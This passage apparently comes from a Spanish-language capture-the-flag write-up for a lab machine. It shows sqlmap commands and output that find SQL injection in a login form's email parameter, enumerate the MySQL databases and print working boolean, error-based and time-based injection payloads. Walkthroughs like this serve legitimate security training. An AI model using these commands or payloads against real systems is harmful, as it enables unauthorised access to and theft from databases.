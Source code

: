 ```bash
[14:10:21] [INFO] parsing HTTP request from 'req.txt'
[14:10:21] [INFO] testing connection to the target URL
[14:10:23] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:10:24] [INFO] testing if the target URL content is stable
[14:10:25] [INFO] target URL content is stable
[14:10:27] [INFO] heuristic (basic) test shows that POST parameter 'email' might be injectable (possible DBMS: 'MySQL')
[14:10:28] [INFO] heuristic (XSS) test shows that POST parameter 'email' might be vulnerable to cross-site scripting (XSS) attacks
[14:10:28] [INFO] testing for SQL injection on POST parameter 'email'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:10:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:10:41] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:10:43] [INFO] testing 'Generic inline queries'
[14:10:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:11:40] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:11:45] [WARNING] reflective value(s) found and filtering out
[14:11:55] [WARNING] user aborted during detection phase
how do you want to proceed? [(S)kip current test/(e)nd detection phase/(n)ext parameter/(c)hange verbosity/(q)uit] 
[*] ending @ 14:11:57 /2023-05-08/
```
Comprobamos que es vulnerable asi que seguimos con encontrar las bases de datos.
```bash
sqlmap -r req.txt -p ‘email’ —threads 9 —batch --force-ssl --dbs
[14:21:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[14:21:58] [INFO] fetching database names
[14:21:59] [INFO] starting 2 threads
[14:22:01] [INFO] retrieved: 'information_schema'
[14:22:01] [INFO] retrieved: 'admin'
available databases [2]:
[*] admin
[*] information_schema

[14:22:01] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/admin-portal.europacorp.htb'

[*] ending @ 14:22:01 /2023-05-08/
```
Tratamos de encontrar las tablas de la base de datos admin.
```bash
sqlmap -r req.txt --force-ssl --batch -D admin --tables
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=asas@as.com' RLIKE (SELECT (CASE WHEN (4404=4404) THEN 0x617361734061732e636f6d ELSE 0x28 END))-- AmID&password=as

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=asas@as.com' AND GTID_SUBSET(CONCAT(0x716a786271,(SELECT (ELT(3158=3158,1))),0x717a6a7671),3158)-- HasV&password=as

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=asas@as.com' AND (SELECT 4405 FROM (SELECT(SLEEP(5)))yfqM)-- XuKF&password=as
---
```